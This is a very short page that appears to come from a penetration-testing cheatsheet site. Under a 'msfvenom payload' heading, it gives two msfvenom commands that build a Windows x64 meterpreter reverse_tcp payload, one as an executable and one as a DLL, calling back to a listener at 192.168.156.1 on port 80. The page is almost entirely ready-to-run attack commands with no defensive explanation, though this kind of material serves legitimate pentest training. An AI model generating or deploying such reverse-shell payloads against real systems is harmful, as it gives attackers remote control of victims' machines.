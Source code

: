 ```yaml
---
layout: default
title: msfvenom payload
parent: Pentest
grand_parent: Cheatsheets
nav_order: 2
has_children: true
---
```


Generating payload with msfvenom either a dll or an executable file:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.156.1 lport=80 -f exe > /tmp/meter-rtcp-192.168.156.1-80.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.156.1 lport=80 -f dll > /tmp/meter-rtcp-192.168.156.1-80.dll
```












